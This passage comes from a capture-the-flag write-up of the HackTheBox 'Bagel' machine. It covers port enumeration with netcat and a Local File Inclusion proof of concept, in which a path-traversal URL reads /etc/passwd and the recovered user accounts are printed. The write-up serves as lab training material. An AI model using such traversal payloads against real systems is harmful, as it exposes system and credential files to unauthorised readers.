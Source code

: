 - Source → [https://launchpad.net/ubuntu/+source/openssh/1:8.8p1-1](https://launchpad.net/ubuntu/+source/openssh/1:8.8p1-1)

### Port 5000

Seems like some kind of application is running on this port, doesn’t show any web page but by using netcat we can see some interesing information:

```bash
┌──(kali㉿kali)-[~/hackthebox/Bagel]
└─$ nc 10.129.160.199 5000
?
HTTP/1.1 400 Bad Request
Content-Type: text/html
Server: Microsoft-NetCore/2.0
Date: Tue, 21 Feb 2023 17:16:49 GMT
Content-Length: 52
Connection: close
Keep-Alive: true

<h1>Bad Request (Invalid request line (parts).)</h1>
```

By giving it any kind of input it shows only Bad Request error with one interesting HTTP Header that is Server which has a value of “Microsoft-NetCore/2.0”.

> *“.NET Core is a powerful software framework that helps developers create apps quickly and easily. Microsoft developed this framework as a cross-platform successor to the .NET Framework.”*
> 

> *“Although popular among developers, the original .Net Framework was limited because it was designed specifically for Windows. Microsoft created .NET Core to address this limitation by allowing developers to create apps that people could use on any device, including mobile devices.”*
> 

Seems like pretty much a .NET made for every platform so it is not only limited to Windows development.

So far all vulnerabilities I managed to find were some kind of privilege escalation attack vectors which leads me to believe that it might be something we exploit later on.

### Port 8000

When accessing it over a web we get a redirect to bagel.htb:8000/?page=index.html which we can add to /etc/hosts file.

### LFI

Page parameter is vulnerable to an Local File Inclusion attack and PoC can be made just by navigating here:

bagel.htb:8000/?page=../../../../../../../../../../etc/passwd

Here we manage to downlaod the passwd file from the system and we can already see some users on it.

```bash
┌──(kali㉿kali)-[~/hackthebox/Bagel/LFI-Downloads]
└─$ cat passwd | grep sh
root:x:0:0:root:/root:/bin/bash
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
setroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
developer:x:1000:1000::/home/developer:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```
